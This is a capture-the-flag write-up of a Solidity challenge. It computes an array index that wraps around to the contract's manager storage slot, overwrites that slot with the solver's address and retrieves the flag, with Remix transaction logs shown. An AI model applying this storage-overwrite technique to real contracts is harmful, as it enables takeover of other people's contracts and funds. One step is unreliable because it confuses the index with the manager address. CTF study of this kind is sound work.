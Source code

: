 As you can see, address `0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563` is the object address where the manager address is stored. And `0x405787fa12a823e0f2b7631cc41b3ba8828b3321ca811111fa75cd3aa3bb5ace` is the length of array `x`.

The address is calcaulated by key value. ( address = keccak256(Object.key) ) The goal of this challenge is to get the FLAG string. How we can get the FLAG string with array `x`? The tricky part here is to access the FLAG string variable with `0x405787fa12a823e0f2b7631cc41b3ba8828b3321ca811111fa75cd3aa3bb5ace`(array).

When you access the array `x` with index `0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563`. It means `x[0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563]`, so it doesn't work to get the manager address. Simply, we can calculate the offset between array and manager variable.

```
offset = 2**256 - array address
       = 2**256 - 0x405787fa12a823e0f2b7631cc41b3ba8828b3321ca811111fa75cd3aa3bb5ace
       = 0xbfa87805ed57dc1f0d489ce33be4c4577d74ccde357eeeee058a32c55c44a532
```

It manes that `x[0xbfa87805ed57dc1f0d489ce33be4c4577d74ccde357eeeee058a32c55c44a532]` points to the manager (0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563). Really ?!!?!

We can verify this behave with getX function. When we put the index as `0xbfa87805ed57dc1f0d489ce33be4c4577d74ccde357eeeee058a32c55c44a532` the result is as followed

```
from 	0x14723a09acff6d2a60dcdf7aa4aff308fddc160c
to 	test.getX(uint256) 0x1459b55e171400dfbf69f834fa6e80232b014ce8
transaction cost 	24241 gas (Cost only applies when called by a contract)
execution cost 	793 gas (Cost only applies when called by a contract)
input 	0x8e5cb5f6bfa87805ed57dc1f0d489ce33be4c4577d74ccde357eeeee058a32c55c44a532
decoded input 	{
"uint256 _index": "86689412755643153520937993975226462422650712005964340702668412599904743236914"
}
decoded output 	{
"0": "uint256: 1154414090619811796818182302139415280051214250812"
}
logs 	[]
```

The output decimal is `0xca35b7d915458ef540ade6068dfe2f44e8fa733c` and this is manager address! So, with this index the manager address can be changed as our address. (index = 0xca35b7d915458ef540ade6068dfe2f44e8fa733c, value=0x14723a09acff6d2a60dcdf7aa4aff308fddc160c). And then, we can call the getFLAG function because the manager is changed as my address.

```
 from 	0x14723a09acff6d2a60dcdf7aa4aff308fddc160c
 to 	test.getFLAG() 0x1459b55e171400dfbf69f834fa6e80232b014ce8
 transaction cost 	23461 gas (Cost only applies when called by a contract)
 execution cost 	2189 gas (Cost only applies when called by a contract)
 input 	0xa979cafe
 decoded input 	{}
 decoded output 	{
	"0": "string: hackability{4rr4y l3n67h und3rfl0w 15 fun}"
}
 logs 	[]
 ```

YEAH ! We've got the FLAG :P

## References

- <https://remix.ethereum.org>
- <https://www.youtube.com/watch?v=gUqHgFuSsqg>
